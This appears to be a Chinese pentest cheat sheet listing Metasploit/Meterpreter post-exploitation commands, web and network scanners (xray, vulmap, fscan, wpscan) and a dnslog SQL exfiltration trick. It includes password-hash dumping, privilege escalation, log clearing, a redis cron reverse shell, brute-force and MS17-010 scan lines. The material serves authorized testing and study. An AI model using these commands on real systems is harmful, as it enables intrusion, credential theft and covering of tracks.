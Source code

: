 综合框架
----------------------------------------

漏洞检测
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ metasploit
	- Terminal下msf常用命令简介
		+ 打开msf终端：``msfconsole``
		+ msf数据库初始化：``msfdb init``
		+ msf更新：``apt install metasploit framework``
		+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
	- msf终端下常用命令简介
		+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
		+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
		+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
		+ 显示命令的帮助信息：``help [db_connect]``
		+ 搜索含有关键字的模块：``search [module]``
		+ 选择模块：``use [module]``
		+ 显示模块支持的payload：``show payload``
		+ 显示模块参数：``show options``
		+ info详情：``info``
		+ 设置取消参数：``set/unset [opt]``
		+ 设置取消全局参数：``setg/unsetg [opt]``
		+ 返回上级状态：``back``
		+ 运行攻击模块：``exploit/run``
		+ 查看当前连接会话：``sessions``
	- meterpreter后渗透利用
		+ 打印当前工作目录：``pwd``
		+ 查看系统信息：``sysinfo``
		+ 查看当前目标机上运行的进程列表和pid：``ps``
		+ 调用相机拍摄照片：``webcam_snap``
		+ 运行vnc远程查看屏幕：``run vnc``
		+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
		+ 截取目标主机当前屏幕​：``screenshot``
		+ 获取当前权限的用户id：``getuid``
		+ 获取system权限：``getsystem``
		+ 获取用户名与hash口令：``hashdump``
		+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
		+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
		+ 上传一个文件：``upload``
		+ 下载一个文件：``download``
		+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
		+ 清除日志：``clearev``
		+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
	- meterpreter内网渗透
		+ 获取目标主机上的子网状态：``run get_local_subnets``
		+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
		+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
		+ 查看当前的路由表：``run autoroute -p``
		+ 扫描内网存活主机：``db_nmap``
		+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
		+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

+ vulmap【web】
	- 项目地址：``https://github.com/zhzyker/vulmap``
	- 安装
			::
			
				git clone https://github.com/zhzyker/vulmap.git
				pip3 install -r requirements.txt
				
	- 基本用法：``python3 vulmap.py -u http://example.com``

+ xray【web】
	- 全局配置
		+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
		+ --log_level 用于指定全局的日志配置
		+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
	- reverse命令
		+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
	- genca
		+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
	- subdomain
		+ 子域名扫描
		+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
		+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
	- webscan
		+ 扫描web漏洞，核心功能
		+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
			- ``--plugins xss --plugins xss,sqldet,phantasm``
		+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
			- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
			- ``--plugins phantasm --poc "*thinkphp*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
		+ 配置输入来源
			- --listen 
				+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
			- --basic-crawler 
				+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
			- --url 
				+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
			- --raw-request 
				+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
		+ 输出方式
			- --html-output 将结果输出为 html 报告, 报告样例
			- --webhook-output 将结果发送到一个地址
			- --json-output 将结果输出到一个 json 文件中
		+ 示例
			- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
			- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

综合
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ARL 资产侦察灯塔系统
	::

		git clone https://github.com/TophantTechnology/ARL
		cd ARL/docker/
		docker volume create arl_db
		docker-compose pull
		docker-compose up -d 
		
		默认端口5003 (https), 默认用户名密码admin/arlpass

+ ShuiZe_0x727
	- 项目：``https://github.com/0x727/ShuiZe_0x727``
	- 协助红队人员快速的信息收集，测绘目标资产，寻找薄弱点。
	- 全方位收集相关资产，并检测漏洞。也可以输入多个域名、C段IP等。
+ LiqunKit
	- 项目：``https://github.com/Liqunkit/LiqunKit_``
	- 漏洞辅助工具箱，包含致远OA，泛微OA，万户OA，蓝凌OA，用友OA，通达OA，weblogic，struts2，thinkphp，shiro，数据库综合。

+ fscan
	- 项目地址：``https://github.com/shadow1ng/fscan``
	- 示例
		::
		
			fscan.exe -h 192.168.1.1/24  (默认使用全部模块)  
			fscan.exe -h 192.168.1.1/16  (B段扫描)
			fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
			fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
			fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
			fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
			fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
			fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
			fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
			fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
			fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
			fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
			fscan.exe -hf ip.txt  (以文件导入)
+ Railgun
	- 项目地址：``https://github.com/lz520520/railgun``
	- Railgun为一款GUI界面的渗透工具，将部分人工经验转换为自动化，集成了渗透过程中常用到的一些功能，目前集成了端口扫描、端口爆破、web指纹扫描、漏洞扫描、漏洞利用以及编码转换功能，后续会持续更新。

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell

dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
